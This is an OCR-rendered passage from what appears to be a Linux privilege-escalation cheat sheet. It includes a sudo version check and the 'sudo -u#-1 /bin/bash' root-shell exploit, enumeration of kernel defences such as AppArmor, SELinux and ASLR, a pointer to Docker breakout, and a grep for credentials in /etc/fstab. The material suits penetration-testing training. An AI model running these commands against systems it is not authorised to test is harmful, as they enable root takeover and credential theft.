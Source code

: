sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
sudo <= v1.28
From @sickrov

sudo -u#-1 /bin/bash
Dmesg signature verification failed
Check smasher2 box of HTB for an example of how this vuln could be exploited

dmesg 2>/dev/null | grep "signature"
More system enumeration
date 2>/dev/null #Date
(df -h || lsblk) #System stats
lscpu #CPU info
lpstat -a 2>/dev/null #Printers info
Enumerate possible defenses
AppArmor
if [ `which aa-status 2>/dev/null` ]; then
    aa-status
  elif [ `which apparmor_status 2>/dev/null` ]; then
    apparmor_status
  elif [ `ls -d /etc/apparmor* 2>/dev/null` ]; then
    ls -d /etc/apparmor*
  else
    echo "Not found AppArmor"
fi
Grsecurity
((uname -r | grep "\-grsec" >/dev/null 2>&1 || grep "grsecurity" /etc/sysctl.conf >/dev/null 2>&1) && echo "Yes" || echo "Not found grsecurity")
PaX
(which paxctl-ng paxctl >/dev/null 2>&1 && echo "Yes" || echo "Not found PaX")
Execshield
(grep "exec-shield" /etc/sysctl.conf || echo "Not found Execshield")
SElinux
 (sestatus 2>/dev/null || echo "Not found sestatus")
ASLR
cat /proc/sys/kernel/randomize_va_space 2>/dev/null
#If 0, not enabled
Docker Breakout
If you are inside a docker container you can try to escape from it:

Docker Breakout
/linux-unix/privilege-escalation/docker-breakout
Drives
Check what is mounted and unmounted, where and why. If anything is unmounted you could try to mount it and check for private info

ls /dev 2>/dev/null | grep -i "sd"
cat /etc/fstab 2>/dev/null | grep -v "^#" | grep -Pv "\W*\#" 2>/dev/null
#Check if credentials in fstab
grep -E "(user|username|login|pass|password|pw|credentials)[=:]" /etc/fstab /etc/mtab 2>/dev/null
Installed Software
Useful software
Enumerate useful binaries
